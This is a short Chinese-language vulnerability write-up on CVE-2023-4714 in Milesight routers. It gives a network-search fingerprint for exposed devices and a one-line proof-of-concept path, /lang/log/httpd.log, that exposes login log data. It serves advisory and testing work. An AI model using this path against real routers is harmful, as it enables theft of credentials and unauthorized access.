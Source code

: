# Milesight Router httpd.log 信息泄漏漏洞 CVE-2023-4714

# Milesight Router httpd.log 信息泄漏漏洞 CVE-2023-4714

## 漏洞描述

Milesight Router 存在信息泄漏漏洞，攻击者通过访问httpd.log可以获取登陆敏感日志信息

## 漏洞影响

Milesight Router

## 网络测绘

```
"rt_title"
```

## 漏洞复现

登陆页面

![image-20231116142232135](images/image-20231116142232135.png)

poc

```
/lang/log/httpd.log
```

![image-20231116142246862](images/image-20231116142246862.png)

